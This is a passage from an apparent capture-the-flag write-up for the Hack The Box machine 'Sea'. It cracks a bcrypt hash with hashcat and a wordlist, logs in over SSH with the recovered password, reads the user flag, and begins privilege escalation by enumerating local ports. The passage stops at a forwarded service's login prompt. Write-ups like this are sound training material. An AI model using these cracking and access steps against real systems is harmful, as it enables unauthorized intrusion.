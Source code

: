 Using hashcat to crack the bcrypt hash:

```shell
❯ hashcat -m 3200 -a 0 bcrypt_hash.txt ~/htb/code/rockyou.txt
hashcat (v6.2.6) starting

$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance
```

The cracked password provided SSH access as user "amay":

```shell
❯ ssh amay@sea.htb
amay@sea:~$ whoami
amay
amay@sea:~$ cat user.txt
---snip---8a8c8d78cd737
```

## Privilege Escalation to Root

Local port scanning revealed interesting internal services:

```shell
amay@sea:~$ netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:58935         0.0.0.0:*               LISTEN      -
```

Going to localhost:8282 which I forwarded to the target's 8080, I get a basic http auth prompt: